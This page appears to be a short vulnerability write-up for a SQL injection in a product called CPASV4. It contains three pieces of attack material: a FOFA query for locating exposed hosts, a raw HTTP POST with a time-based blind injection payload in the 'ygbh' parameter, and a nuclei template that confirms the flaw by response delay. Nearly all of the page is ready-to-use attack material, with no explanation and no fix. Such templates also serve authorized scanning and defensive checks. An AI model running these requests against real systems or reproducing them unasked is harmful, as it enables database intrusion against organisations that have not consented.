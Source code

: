 # fofa

```plain
body="/cpasm4/static/cap/font/iconfont.css"
```

# POC

```http
POST /cpasm4/cpasList/getCurserIfAllowLogin HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/plain, */*; q=0.01

ygbh=q' AND (SELECT 1635 FROM (SELECT(SLEEP(5)))mlQT) AND 'qoYJ'='qoYJ
```

# nuclei

```yaml
id: CPASV4-getCurserIfAllowLogin-sqli

info:
  name: CPASV4 getCurserIfAllowLogin SQL injection
  author: zxf
  severity: high
  metadata:
    fofasearch: body="/cpasm4/static/cap/font/iconfont.css"

http:
  - raw:
      - |
        POST /cpasm4/cpasList/getCurserIfAllowLogin HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Accept-Encoding: gzip, deflate
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept: text/plain, */*; q=0.01

        ygbh=q' AND (SELECT 1635 FROM (SELECT(SLEEP(5)))mlQT) AND 'qoYJ'='qoYJ
        
    matchers:
      - type: dsl
        dsl:
          - status_code==200 && duration >= 5
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739185233706-cc274212-34f3-488f-8cc4-08597a5f3c1d.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739185476522-998c4931-c0b4-452d-bd66-5aa7e2a228dd.png)